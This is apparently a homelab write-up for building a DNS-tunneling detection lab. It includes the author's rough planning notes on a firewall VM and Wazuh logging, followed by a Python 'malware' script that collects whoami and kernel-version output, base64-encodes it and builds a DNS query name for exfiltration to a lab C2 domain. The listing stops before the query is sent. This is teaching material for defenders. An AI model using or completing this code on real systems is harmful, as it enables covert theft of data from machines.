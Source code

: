 > lots to change here. make a new VM for the infected machine and make a separate server that you call firewall. the firewall will have rules to allow DNS traffic which fits with my narrative. with this you can isolate traffic from the infected machine and use the firewall as a gateway to forward traffic throughout the network. This machine is essentially going to be the choke point and the only way that the infected machine can communicate by using a host only network. This means setting up two NICs on the firewall to allow host only Comms and NAT to the rest of the network so that it can communicate with DNS. I can use this server for future projects and only test security shit on it rather than conflicting with wazuh. that said it will feed logs into wazuh when I make a detection rule. Having this setup as a firewall and forcing traffic through it emulated a real-world scenario where a secure network would route traffic through a firewall first, exposing port 53 because it's a necessary port for IP resolution, and feeds well into my narrative. This does mean that my bit on setting the DNS on the infected machine is wrong because I need to add that to the firewall instead now.

### Gateway

# Red Team
With configuration finished the red team engagement can commence. For this part we assume that the adversary has already managed to get malware onto the victim's machine, and it is now infected. This malware was created specifically for this lab, is written in Python, and is provided in the next code block.

I've named this malware `dns_tunneling.py` and its sole purpose is to extract information from the infected machine and exfiltrate it over DNS to the C2 server. That might sound complicated, but it's quite easy when you break it down into steps:

1. Collect the data using built-in linux commands via `subprocess`
2. Encode it with base64 for seamless transportation
3. Clean the data and strip unnecessary characters
4. Query the C2 DNS server with the encoded data

Encoding with base64 is required because DNS operates with a strict set of character limitations. This means that certain special characters like spaces, slashes and non-ASCII symbols could break the query entirely. When you encode this data with base64 you're essentially sanitizing the data so that it doesn't interfere with the query's structure.

Please note the DNS toolkit used in this malware is not installed by default. `subprocess` and `base64` will be included with a typical Python install but you will need to install `dnspython` to get the exfiltration section to work. You can do this by running `pip install dnspython`.

``` python
def base64_encode(data):
    # base64 encoding requires input data as bytes
    if not isinstance(data, bytes):
       data = data.encode("utf-8")
    data = base64.b64encode(data)
    return data.decode("utf-8").strip()

def run_command(commands):
    # process commands and return stdout as bytes
    return subprocess.run(commands, capture_output=True).stdout

# Extract
import subprocess
raw_username = run_command("whoami")
raw_system_info = run_command(["uname", "-r"])

# Encode
import base64
encoded_username = base64_encode(raw_username)
encoded_system_info = base64_encode(raw_system_info)

# Exfiltrate
import dns.resolver
domain = ".homelab.local" # change this to suit your needs
encoded_message = f"{encoded_username}.{encoded_system_info}" + domain
```